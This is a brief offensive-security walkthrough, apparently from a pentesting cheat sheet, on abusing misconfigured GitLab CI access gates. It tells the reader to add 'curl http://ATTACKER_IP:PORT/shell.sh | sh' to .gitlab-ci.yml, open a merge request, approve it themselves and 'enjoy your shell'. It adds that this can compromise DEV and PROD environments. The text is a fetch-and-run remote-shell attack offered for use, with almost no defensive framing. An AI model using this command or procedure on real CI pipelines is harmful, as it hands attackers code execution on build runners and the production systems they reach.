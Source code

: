 ## TIP: Depending on the context the runner is running, you may even compromise DEV and PROD environments respectively.

# MISCONFIGURED ACCESS GATES

## EXAMPLE:

#### 1) Update the .gitlab-ci.yml file with "curl http://ATTACKER_IP:PORT/shell.sh | sh" on the script paragraph.

#### 2) Commit changes

#### 3) Create merge request

#### 4) Approval is OPTIONAL (Obviously this is a logic flaw of Gitlab) so we can approve our own merge requests without restrictions

#### 5) Enjoy your shell

